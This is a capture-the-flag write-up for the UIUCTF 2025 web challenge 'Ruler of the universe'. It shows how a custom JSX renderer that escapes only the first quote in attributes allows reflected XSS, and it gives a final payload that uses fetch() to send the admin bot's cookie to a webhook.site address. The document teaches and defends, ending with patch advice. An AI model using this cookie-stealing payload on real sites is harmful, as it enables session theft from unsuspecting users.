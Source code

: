 ```yaml
---
title: "UIUCTF 2025 - Ruler of the universe"
date: 2025-07-28 15:00:00 +0200
categories: [UIUCTF 2025, web]
tags: [web]
description: Writeup for the first web challenge of the UIUCTF of 2025
---
```


For this challenge, we have the source code of the web application. So let's take a look at it :

### Reading the source code

First, let's locate the flag :

We see an ```adminbot``` folder. That's my trigger for a web-client based challenge. Furthermore, we see : 


```typescript
await browser.setCookie({
    name: "flag",
    value: FLAG,
    domain: new URL(mainUrl).hostname,
    httpOnly: false,
    secure: true,
});
```
{: file="adminbot/index.ts" }

We can clearly see that we need to steal the bot cookie to get the flag. Note that the flag ```httpOnly``` is set to ```false``` so it makes our life easier since we can use javascript to retrieve the cookie. And who says javascript + cookies says XSS !


Our plan is :
- Find an exploitable XSS in the web app
- Submit the compromised URL to the bot
- Enjoy our flag

### Finding the XSS

We see from the source code that the web application has only two pages : ```home.tsx``` and  ```module.tsx```

After viewing ```index.tsx``` we see that ```home.tsx``` does not take any user input, just the admin bot url that we cannot control : 

``` react
"/": {
    GET: (req) => {
        const url = new URL(req.url);

        let adminUrl = "#";
        if (url.hostname == "localhost") {
            adminUrl = "http://localhost:3001";
        } else if (
            url.hostname.endsWith("ruler-of-the-universe.chal.uiuc.tf")
        ) {
            const currentHost = url.host;
            const instancePrefix =
                currentHost.split(`-`)[0] + `-` + currentHost.split(`-`)[1];
            adminUrl = `https://${instancePrefix}-adminbot-ruler-of-the-universe.chal.uiuc.tf/`;
        }

        return new Response(
            render(
                <App>
                    <Home adminUrl={adminUrl} />
                </App>
            ),
            {
                headers: { "Content-Type": "text/html; charset=utf-8" },
            }
        );
    },
}
```
{: file="challenge/src/app/index.tsx" }

But it's different for the ```/module``` path : 

``` react
"/module/:id": {
    GET: (req) => {
        const moduleId = parseInt(req.params.id);
        const crewMessage = new URL(req.url).searchParams.get("message");

        return new Response(
            render(
                <App>
                    <Module id={moduleId} crewMessage={crewMessage} />
                </App>
            ),
            {
                headers: { "Content-Type": "text/html; charset=utf-8" },
            }
        );
    },
}
```
{: file="challenge/src/app/index.tsx" }

We see two arguments are passed to ```module.tsx``` : ```moduleId``` and ```crewMessage```.

- ```moduleId``` is got from the parameters of the url but unfortunately it is cast into an int, so no injection possible here
- ```crewMessage``` is directly taken from the ```message``` parameter, we can play with it as we want

We have now only one option to investigate : the ```crewMessage``` variable.

We see two reflections of ```crewMessage``` in ```module.tsx``` :

``` react
<input
    id="message"
    name="message"
    type="text"
    class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
    placeholder={
        crewMessage
            ? `Update your message: ${crewMessage}`
            : "Enter a message for the crew"
    }
/>
```
{: file="challenge/src/app/pages/module.tsx" }

and : 

``` react
{crewMessage && <p>[13:10] Crew message: "{crewMessage}"</p>}
```
{: file="challenge/src/app/pages/module.tsx" }

### Understanding the rendering logic

At this point, we suspect the ```crewMessage``` value might be reflected unsafely in the DOM. But we need to understand how rendering is performed. Looking at ```challenge/src/my_jsx/index.ts```, we find a custom JSX renderer is used instead of React’s default output engine.

The rendering code looks like this:

``` typescript
if (typeof element === "string" || typeof element === "number") {
    return escapeHTML(element);
}
```
{: file="challenge/src/my_jsx/index.ts" }

This means any string used as a child node (like the second reflection of ```crewMessage```) will be automatically HTML-escaped using escapeHTML.

However, props are handled differently:
``` typescript
.map(([key, value]) => {
    if (typeof value === "boolean") {
        return value ? key : "";
    }
    return `${key}="${String(value).replace('"', "&quot;")}"`;
})
```
{: file="challenge/src/my_jsx/index.ts" }

This code only escapes the first ```"``` in ```&quot```, nothing else (unlike python). This makes the first reflection of ```crewMessage``` vulnerable !

### Making the payload

We know that we can control ```crewMessage``` with the ```message``` parameter on ```/module/id``` and that the first ```"``` will be escape.

We will try something like this : (not url encoded !)
```
https://inst-xxxxxxxxxx-ruler-of-the-universe.chal.uiuc.tf/module/1?message=""><script>alert(1)</script>
```

Explanation : the first ```"``` got escaped but everything else is left as is, so we closed the input tag via ```">``` and finally write our javascript between ```<script>``` tag.

When visiting the url, we sucecssfully get a popup, we have a working XSS !

### Retrieving the flag

Now let's build a payload to steal the admin's cookie and retrieve our flag !

- We can access the cookies by document.cookie
- We need a way to send the cookie back to us

So, we will do a request to a server with the flag.

I personally use webhook.site but of course you're free to use whatever tool you want.

Here's the final url : (again not url encoded)
```
https://inst-xxxxxxxxxx-ruler-of-the-universe.chal.uiuc.tf/module/1?message=""><script>fetch('https://webhook.site/yourUUIDhere/?flag='+document.cookie)</script>
```

Submit the url (only the part from ```module/...```) to the admin bot and enjoy your flag !

### How to patch this ?

Avoid writing your own custom JSX renderer or input sanitizer unless absolutely necessary. Prefer using mature, battle-tested libraries that handle escaping properly, like React’s default DOM renderer.

<i>Solved by <span class="goodwill">OuahLePleutre</span></i>